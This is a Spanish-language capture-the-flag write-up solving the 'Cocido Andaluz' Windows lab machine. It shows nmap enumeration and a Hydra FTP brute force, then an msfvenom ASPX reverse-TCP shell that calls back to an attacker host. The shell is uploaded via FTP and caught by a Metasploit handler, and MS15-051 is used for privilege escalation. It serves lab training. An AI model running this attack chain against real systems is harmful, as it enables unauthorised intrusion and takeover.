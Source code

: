 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - HackMyVM
  - Easy
  - Windows
  - Hydra
  - FTP
  - PrivilegeEscalation
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
- [[#Explotación|Explotación]]
	- [[#Explotación#Hydra|Hydra]]
	- [[#Explotación#FTP|FTP]]
	- [[#Explotación#Escalada de Privilegios|Escalada de Privilegios]]

---
# Resolviendo la máquina Cocido Andaluz

>En esta publicación, comparto cómo resolví la máquina **Cocido Andaluz** de [The Hackers Labs](https://labs.thehackerslabs.com/machine/21).

---
## Enumeración
### Ping

Ejecutamos un *ping* para comprobar la conectividad y obtener pistas sobre el sistema operativo.

`ping -c 1 192.168.1.135 `

![[Pasted image 20250719200630.png]]

*TTL=128* -> **Windows**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.135 -oG allPorts`

![[Pasted image 20250719200743.png]]

`nmap -p21,80,135,139,445,49152,49153,49154,49155,49156,49157,49158 -sCV 192.168.1.135 -oN targeted`

![[Pasted image 20250719201140.png]]

---
## Explotación
### Hydra

Se realiza *fuerza bruta* al servicio **FTP**.

`hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000000.txt 192.168.1.135 ftp`

![[Pasted image 20250719212815.png]]

Se genera un *payload malicioso*.

`msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.127 LPORT=1234 -f aspx > shell.aspx`
### FTP

Se accede al servicio **FTP**, con las contraseñas descubiertas anteriormente.

`ftp info@192.168.1.135`

![[Pasted image 20250719213150.png]]

Se sube el archivo generado anteriormente.

`put shell.aspx`

Nos ponemos a la escucha en el puerto 1234 para recibir la *reverse shell*.

`vin handler.rc`

```
use multi/handler
set PAYLOAD windows/shell/reverse_tcp
set LHOST 192.168.1.127
set LPORT 1234
run
```

`msfconsole -r handler.rc`

![[Pasted image 20250719214306.png]]

`http://192.168.1.135/shell.aspx`

![[Pasted image 20250719214425.png]]

`background`

`sessions -u 1`

`sessions 2`

![[Pasted image 20250719214645.png]]
### Escalada de Privilegios

*Exploit* para enumerar los usuarios actualmente conectados en un sistema **Windows**.

`post/multi/recon/local_exploit_suggester`

```
search local_exploit_suggester
use 0 | use post/multi/recon/local_exploit_suggester
show options
set SESSION 2
exploit
```

![[Pasted image 20250720102647.png]]

*Exploit* para explotar una vulnerabilidad de escalada de privilegios en **Windows**, identificada como **MS15-051**.

`exploit/windows/local/ms15_051_client_copy_image`

```
search exploit/windows/local/ms15_051_client_copy_image
use 0 | use exploit/windows/local/ms15_051_client_copy_image
show options
set SESSION 2
exploit
```

![[Pasted image 20250720102815.png]]

`sessions 4`

`getuid`

![[Pasted image 20250720102902.png]]

---